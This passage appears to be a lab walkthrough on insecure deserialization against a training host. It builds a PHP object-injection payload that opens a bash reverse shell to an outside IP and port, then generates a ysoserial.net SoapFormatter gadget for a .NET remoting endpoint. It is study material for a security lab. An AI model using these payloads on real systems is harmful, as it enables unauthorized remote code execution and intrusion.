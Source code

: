 ```php
class PHPObjectInjection {
    public $inject="system('hostname');";
}
$obj = new PHPObjectInjection();
var_dump(serialize($obj));
?>
```
After running it it returns: 
```bash
O:18:"PHPObjectInjection":1:{s:6:"inject";s:19:"system('hostname');";}
```
Passing it to the r variable returs in the webpage: "demo.ine.local".
Time to achieve RCE. We rewrite the exploit as:
```php
<?php
class PHPObjectInjection {                                                                  
    public $inject="system('/bin/bash -c \'bash -i >& /dev/tcp/192.55.123.2/4444 0>&1\'');";
}                                                                                           
$obj = new PHPObjectInjection();
var_dump(serialize($obj));
?>
```
We run it to get: 
```bash
O:18:"PHPObjectInjection":1:{s:6:"inject";s:70:"system('/bin/bash -c \'bash -i >& /dev/tcp/192.55.123.2/4444 0>&1\'');";}
```
Last step before sending it is to url encode as it contain special url characters, so it becomes:
```bash
O%3A18%3A%22PHPObjectInjection%22%3A1%3A%7Bs%3A6%3A%22inject%22%3Bs%3A70%3A%22system%28%27%2Fbin%2Fbash%20-c%20%5C%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.55.123.2%2F4444%200%3E%261%5C%27%27%29%3B%22%3B%7D
```
After setting up a nc handler and sending it, we get the shell.
## .NET
Browsing the webpage at demo.ine.local, we find an iframe which contains a link to /VulnerableEndpoint.rem. If we send a POST to such endpoint containing:
```html
<SOAP:ENVELOPE>
</SOAP:ENVELOPE>
```
It responds with a 500 error with 
```html
<faultcode id="ref-2">SOAP-ENV:Server</faultcode>
<faultstring id="ref-3"> **** System.Runtime.Remoting.RemotingException - Server encountered an internal error. For more information, turn off customErrors in the server&#39;s .config file.</faultstring>
```
This tells us that the service endpoint is valid else it would have answered "Requested Service not found".
Since we found an interesting endpoint we can try to deserialize it with ysoserial.net. We run the following command to get the exploit:
```bash
ysoserial.exe -f SoapFormatter -g TextFormattingRunProperties -c "cmd /c ping 10.10.24.7" -o raw
```
This will output the following body to be sent to the endpoint in a POST request as follows:
```bash
POST /VulnerableEndpoint.rem HTTP/1.1
Host: demo.ine.local:1234
SOAPAction: something
Content-type: text/xml
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
```